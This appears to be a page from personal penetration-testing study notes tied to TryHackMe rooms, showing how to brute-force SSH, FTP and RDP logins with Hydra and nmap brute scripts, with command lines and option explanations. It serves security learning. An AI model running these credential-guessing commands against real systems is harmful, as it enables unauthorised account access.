 # Bruteforce services

[![agentsudoctf](../../_badges/thm-p/agentsudoctf.svg)](https://tryhackme.com/room/agentsudoctf)
[![basicpentestingjt](../../_badges/thm-p/basicpentestingjt.svg)](https://tryhackme.com/room/basicpentestingjt)
[![netsecchallenge](../../_badges/thmp-p/netsecchallenge.svg)](https://tryhackme.com/room/netsecchallenge)
[![cowboyhacker](../../_badges/thm-p/cowboyhacker.svg)](https://tryhackme.com/room/cowboyhacker)

> There are tools such as `fail2ban` to block users after $n$ failed tries within a timeframe of $x$ seconds.

<hr class="sep-both">

## Hydra

[![hydra](../../_badges/thm/hydra.svg)](https://tryhackme.com/room/hydra)

<div class="row row-cols-md-2"><div>

[Hydra](https://github.com/vanhauser-thc/thc-hydra) (6.8k ⭐, 🥇) is a well-known tool to bruteforce authentication services such SSH, FTP, RDP, MySQL... It can even be used on login forms, but that's explained somewhere else.

```bash
$ wordlist=/usr/share/wordlists/rockyou.txt
# use ssh, ftp...
$ hydra -l username -P $wordlist ssh://IP
$ hydra -l username -P $wordlist ftp://IP
$ hydra -l username -P $wordlist rdp://IP
$ [...]
# alternate form
$ hydra -l username -P $wordlist IP ssh
```

> Note: I use a variable `$wordlist` to write shorter commands. <br>
> You can learn more about [wordlists here](/cyber/exploitation/general/index.md#-wordlists-) 🖋️.
</div><div class="align-self-center">

* `-l username`: try this username
* `-L file`: try a list of usernames
* `-p password`: try this password
* `-P file`: try a list of passwords
* `-C file`: instead of L/P, provide a list of "username:password"
* `-s port`: use another port
* `-t n`: use $n$ threads (default: 16)
* `-v` / `-d` : verbose / debug
* `-V`: show login+password for every attempt
* `-e [values]` such as `-e nsr` for all three
  * `n`: try null password
  * `s`: try login as pass
  * `r`: try reversed login
</div></div>

<hr class="sep-both">

## Nmap

[See nmap if you are not familiar with it](/cyber/discovery/nmap/index.md)

<div class="row row-cols-md-2 mt-3"><div>

```bash
$ nmap IP -p 22 --script ssh-brute --script-args userdb=users.lst,passdb=pass.lst
```

You can actually load every brute force script

```bash
$ nmap IP --script "*brute*" --script-args userdb=users.lst,passdb=pass.lst
```
</div><div class="align-self-center">

<p class="text-center"><b>🥈 Note that it's uncommon, use hydra 🥈</b></p>

The command is taking two [wordlists](/cyber/exploitation/general/index.md#-wordlists-), basically files with one username/password per line, and it will try the cartesian product of both files <small>(i.g. the first username with every password, then the second username...)</small>.

> See [nmap list of brute force scripts](https://nmap.org/nsedoc/categories/brute.html).
</div></div>